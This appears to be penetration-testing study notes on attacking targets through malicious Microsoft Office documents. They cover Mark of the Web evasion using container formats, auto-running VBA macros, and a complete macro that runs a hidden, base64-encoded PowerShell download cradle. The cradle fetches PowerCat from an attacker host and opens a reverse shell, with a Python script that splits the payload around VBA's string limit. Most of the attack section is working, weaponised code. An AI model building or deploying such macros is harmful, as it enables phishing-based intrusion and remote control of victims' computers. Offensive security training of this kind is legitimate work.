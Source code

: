 # Microsoft Office



## Mark of the Web (MOTW)
If we successfully manage to deliver the Office document to our target via email or download link, the file will be tagged with the Mark of the Web (MOTW) and will open in Protected View (which disables all editing and modification settings in the document and blocks the execution of macros or embedded objects).

MOTW is not added to files on FAT32-formatted devices.

It is possible to avoid getting a file flagged with MOTW by providing it in container file formats like 7zip, ISO, or IMG.




## Macros

Macros are one of the oldest and best-known client-side attack vectors.

- < https://support.office.com/en-us/article/Create-or-run-a-macro-C6B99036-905C-49A6-818A- DFB98B7C3C9C>

- <https://docs.microsoft.com/en-us/office/vba/api/overview/>

Macros can be written from scratch in Visual Basic for Applications (VBA), which is a powerful scripting language with full access to ActiveX objects and the Windows Script Host, similar to JavaScript in HTML Applications.





### Filetype
Save the file in the `.doc` format. This is important because the newer `.docx` file type cannot save macros without attaching a containing template. This means that we can run macros within `.docx` files but we can't embed or save the macro in the document. In other words, the macro is not persistent. Alternatively, we could also use the `.docm` file type for our embedded macro.




### PoC

This VBA code just opens PowerShell:
```
Sub AutoOpen()
	MyMacro
End Sub
Sub Document_Open()
	MyMacro
End Sub
Sub MyMacro()
	CreateObject("Wscript.Shell").Run "powershell"
End Sub
```




### Reverse shell with PowerCat

We'll use a base64-encoded PowerShell download cradle to download PowerCat and start the reverse shell.

- <https://gist.github.com/HarmJ0y/bb48307ffa663256e239>

The encoded PowerShell command will be declared as a String in VBA.

We should note that VBA has a 255-character limit for literal strings and therefore, we can't just embed the base64-encoded PowerShell commands as a single string. This restriction does not apply to strings stored in variables, so we can split the commands into multiple lines (stored in strings) and concatenate them.



Declare a string variable named `Str` with the `Dim` keyword, which we'll use to store our PowerShell download cradle and the command to create a reverse shell with PowerCat.

`Dim` stands for Dimension.
It is a keyword used to declare and allocate storage space for variables.
When you use `Dim`, you are essentially telling the compiler to create a variable of a certain type and, optionally, initialize it.


We can use the following Python script to split the base64-encoded string into smaller chunks of 50 characters and concatenate them into the `Str` variable.
To do this, we store the PowerShell command in a variable named `str` and the number of characters for a chunk in `n`. We must make sure that the base64-encoded command does not contain any line breaks after we paste it into the script. A for-loop iterates over the PowerShell command and prints each chunk in the correct format for our macro.

```python
str = "powershell.exe -nop -w hidden -enc [ENCODED STRING]"
n = 50
for i in range(0, len(str), n):
print("Str = Str + " + '"' + str[i:i+n] + '"')
```




```
' VBA Script
' PowerShell command to download cradle and PowerCat reverse shell
' Encode the command with base64 to avoid issues with special characters
'
' IEX(New-Object System.Net.WebClient).DownloadString('http://[ATTACKER IP]/powercat.ps1');powercat -c [ATTACKER IP] -p [PORT] -e powershell
'
'

Sub AutoOpen()
    MyMacro
End Sub

Sub Document_Open()
    MyMacro
End Sub

Sub MyMacro()
    Dim Str As String
    
    Str = Str & "powershell.exe -nop -w hidden -enc SQBFAFgAKABOAGU"
    Str = Str & "AdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAd"
    Str = Str & "AAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwB"
    Str = Str & "hAGQAUwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AMQA5A"
    Str = Str & "DIALgAxADYAOAAuADQANQAuADIAMwAzAC8AcABvAHcAZQByAGM"
    Str = Str & "AYQB0AC4AcABzADEAJwApADsAcABvAHcAZQByAGMAYQB0ACAAL"
    Str = Str & "QBjACAAMQA5ADIALgAxADYAOAAuADQANQAuADIAMwAzACAALQB"
    Str = Str & "wACAAOQA5ADkAOQAgAC0AZQAgAHAAbwB3AGUAcgBzAGgAZQBsA"
    Str = Str & "GwA"
    
    CreateObject("Wscript.Shell").Run Str
End Sub
```















